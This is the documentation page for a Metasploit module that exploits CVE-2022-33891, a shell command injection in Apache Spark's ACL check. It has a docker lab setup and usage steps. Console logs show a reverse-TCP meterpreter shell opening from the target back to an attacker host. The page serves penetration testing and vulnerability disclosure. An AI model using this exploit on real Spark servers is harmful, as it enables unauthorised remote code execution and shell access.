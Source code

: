 ## Vulnerable Application

This module exploits a remote code execution vulnerability (CVE-2022-33891) of Apache Spark.
The Apache Spark UI offers the possibility to enable ACLs via the configuration option `spark.acls.enable`.
With an authentication filter, this checks whether a user has access permissions to view or modify the application.
The permission check is coded using a bash command shell and the unix id command that allows a malicious shell command injection.

Ironically the `spark.acls.enable` configuration setting is designed to improve the security access within the Spark application,
but unfortunately this configuration setting triggers the vulnerable code below.

```
private def getUnixGroups(username: String): Set[String] = {
    val cmdSeq = Seq("bash", "-c", "id -Gn " + username)
    // we need to get rid of the trailing "\n" from the result of command execution
    Utils.executeAndGetOutput(cmdSeq).stripLineEnd.split(" ").toSet
    Utils.executeAndGetOutput(idPath ::  "-Gn" :: username :: Nil).stripLineEnd.split(" ").toSet
  }
}
```

This will result in arbitrary shell command execution as the user `Spark`.

This affects Apache Spark versions 3.0.3 and earlier, versions 3.1.1 to 3.1.2, and versions 3.2.0 to 3.2.1

Installing a vulnerable version of Apache Spark to test this vulnerability is quite easy.

To set the server up use the following docker-compose.yml file and follow the steps below:
```
version: '2'

services:
  spark:
    image: docker.io/bitnami/spark:3.1.1
    environment:
      - SPARK_MODE=master
      - SPARK_RPC_AUTHENTICATION_ENABLED=no
      - SPARK_RPC_ENCRYPTION_ENABLED=no
      - SPARK_LOCAL_STORAGE_ENCRYPTION_ENABLED=no
      - SPARK_SSL_ENABLED=no
    ports:
      - '8080:8080'
```

1. Create the docker-compose.yml in your preferred directory and run `docker-compose up`. Let the container spin up.
1. In a new terminal, enter `sudo docker exec -it spark_spark_1 /bin/bash`
1. In the container bash session, enter: `echo "spark.acls.enable true" >> conf/spark-defaults.conf`
1. cat the contents of spark-defaults.conf to make sure it looks good.
1. Exit the interactive bash shell and Ctrl-C your docker-compose process.
1. Once the containers have powered down gracefully, rerun `docker-compose up`

Once the server and application is up, it's vulnerable and you can access it on port 8080 for testing...

## Verification Steps

1. `use exploit/linux/http/apache_spark_rce_cve_2022_33891`
1. `set RHOSTS <TARGET HOSTS>`
1. `set LHOST <Address of Attacking Machine>`
1. `exploit`
1. You should get a shell or meterpreter as the `spark` user.

## Options

No specific options to be set.

## Scenarios

### Apache Spark version 3.1.1 on Linux 5.10.104-linuxkit with spark.acls.enable set to true

```
msf6 > use exploit/linux/http/apache_spark_rce_cve_2022_33891
[*] Using configured payload cmd/unix/python/meterpreter/reverse_tcp
msf6 exploit(linux/http/apache_spark_rce_cve_2022_33891) > set lhost 192.168.100.7
lhost => 192.168.100.7
msf6 exploit(linux/http/apache_spark_rce_cve_2022_33891) > set rhosts 192.168.100.43
rhosts => 192.168.100.43
msf6 exploit(linux/http/apache_spark_rce_cve_2022_33891) > options

Module options (exploit/linux/http/apache_spark_rce_cve_2022_33891):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     192.168.100.43   yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT      8080             yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The URI of the vulnerable instance
   VHOST                       no        HTTP server virtual host


Payload options (cmd/unix/python/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.100.7    yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Unix (In-Memory)


msf6 exploit(linux/http/apache_spark_rce_cve_2022_33891) > exploit

[*] Started reverse TCP handler on 192.168.100.7:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.100.43:8080 can be exploited!
[*] Perform sleep test of 10 seconds...
[+] The target is vulnerable. Sleep was around 10 seconds [10.033867019]!
[*] Exploiting...
[*] Sending stage (40164 bytes) to 192.168.100.43
[-] Meterpreter session 3 is not valid and will be closed
[*] 192.168.100.43 - Meterpreter session 3 closed.
[*] Sending stage (40168 bytes) to 192.168.100.43
[*] Meterpreter session 4 opened (192.168.100.7:4444 -> 192.168.100.43:62618) at 2022-08-26 10:49:46 +0000

meterpreter > sysinfo
Computer     : 7a26a9fb7ce3
OS           : Linux 5.10.104-linuxkit #1 SMP Thu Mar 17 17:08:06 UTC 2022
Architecture : x64
Meterpreter  : python/linux
meterpreter > getuid
Server username: spark
```

### Apache Spark version 3.1.1 on Linux 5.10.104-linuxkit WITHOUT the spark.acls.enable option

Note: This version is vulnerable, however the `spark.acls.enable` option is not set, hence the vulnerable code will not be triggered.
Response on POST payload request will be 200 instead of 403.

```
msf6 > use exploit/linux/http/apache_spark_rce_cve_2022_33891
[*] Using configured payload cmd/unix/python/meterpreter/reverse_tcp
msf6 exploit(linux/http/apache_spark_rce_cve_2022_33891) > set lhost 192.168.100.7
lhost => 192.168.100.7
msf6 exploit(linux/http/apache_spark_rce_cve_2022_33891) > set rhosts 192.168.100.43
rhosts => 192.168.100.43
msf6 exploit(linux/http/apache_spark_rce_cve_2022_33891) > options

Module options (exploit/linux/http/apache_spark_rce_cve_2022_33891):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     192.168.100.43   yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT      8080             yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The URI of the vulnerable instance
   VHOST                       no        HTTP server virtual host


Payload options (cmd/unix/python/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.100.7    yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Unix (In-Memory)


msf6 exploit(inux/http/apache_spark_rce_cve_2022_33891) > exploit

[*] Started reverse TCP handler on 192.168.100.7:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.100.43:8080 can be exploited!
[-] Exploit aborted due to failure: not-vulnerable: The target is not exploitable. The 192.168.100.43:8080 did not respond a 403 response. "set ForceExploit true" to override check result.
[*] Exploit completed, but no session was created.
msf6 exploit(linux/http/apache_spark_rce_cve_2022_33891) >
```

## Limitations
The check to determine if the application is vulnerable is based on a 403 response and the execution of a randomized `sleep` command.
The exploit is a blind command injection, so there is nothing reflected back on the page during the command execution.
Timing the sleep command execution is therefore a pretty safe bet to check if the command injection is successful.

Credits goes to HuskyHacks that used this test in his [POC](https://github.com/HuskyHacks/cve-2022-33891) on GitHub.
